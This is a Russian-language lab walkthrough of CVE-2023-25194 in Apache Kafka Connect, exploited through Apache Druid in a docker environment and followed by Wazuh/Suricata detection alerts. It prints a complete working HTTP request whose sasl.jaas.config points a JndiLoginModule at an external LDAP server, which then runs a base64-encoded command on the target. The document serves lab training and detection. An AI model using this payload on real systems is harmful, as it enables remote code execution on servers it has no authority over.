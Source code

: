 # CVE-2023-25194

Apache Kafka — это платформа с открытым исходным кодом, которая используется для потоковой передачи и обработки данных в реальном времени.

В API Apache Kafka Connect обнаружена возможная уязвимость, для которой требуется доступ к рабочему процессу Kafka Connect и возможность создавать/изменять на нем коннекторы с помощью произвольной конфигурации SASL JAAS клиента Kafka и протокола безопасности на основе SASL, что стало возможным в кластерах Kafka Connect начиная с Apache Kafka Connect 2.3.0. Злоумышленник может вызвать неограниченную десериализацию ненадежных данных или уязвимость RCE, если в пути к классам есть гаджеты.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После успешного запуска по адресу http://ваш-ip:8888 будет доступна домашняя страница Apache Druid

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для начала запустите JNDI-сервер с помощью [JNDIExploit](https://github.com/vulhub/JNDIExploit)

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Затем отправьте соответствующий запрос на уязвимый хост:

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: ваш-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://jndi-сервер-ip:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3MK\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

> Здесь "aWQgPiAvdG1wL3N1Y2Nlc3MK" - полезная нагрузка "id > /tmp/success", закодированная в base64
>
>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

После отправки запроса на уязвимом хосте создался файл /tmp/success с выводом результата команды id&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

Suricata определила это как эксплуатацию уязвимости CVE-2021-44228 (Log4Shell)

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>
